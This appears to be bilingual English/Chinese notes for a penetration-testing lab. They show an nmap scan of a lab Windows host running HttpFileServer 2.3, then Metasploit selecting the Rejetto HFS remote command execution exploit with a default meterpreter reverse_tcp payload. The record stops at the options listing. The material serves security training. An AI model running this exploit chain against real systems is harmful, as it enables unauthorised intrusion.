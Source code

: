- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.您的 Kali 机器有一个 IP 地址为 10.10.X.Y. 的接口。 运行“ip addr”以了解 X 和 Y 的值。
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”目标计算机的 IP 地址在文件“/root/Desktop/target”中提及
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1不要攻击位于 IP 地址 192.V.W.1 和 10.10.X.1 的网关

### Solutions 解决方案

The solution for this lab can be found in the following manual:

[https://assets.ine.com/labs/ad-manuals/walkthrough-2140.pdf](https://assets.ine.com/labs/ad-manuals/walkthrough-2140.pdf)

本实验的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-2140.pdf

## 复现视频内容

Target IP Address : 10.0.27.39

Kali Linux : 10.10.16.2

```bash
root@attackdefense:~# nmap -sV 10.0.27.39

Starting Nmap 7.91 ( https://nmap.org ) at 2023-07-04 07:22 IST
Nmap scan report for 10.0.27.39
Host is up (0.0027s latency).
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.87 seconds
```

```bash
root@attackdefense:~# msfconsole -q
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):
```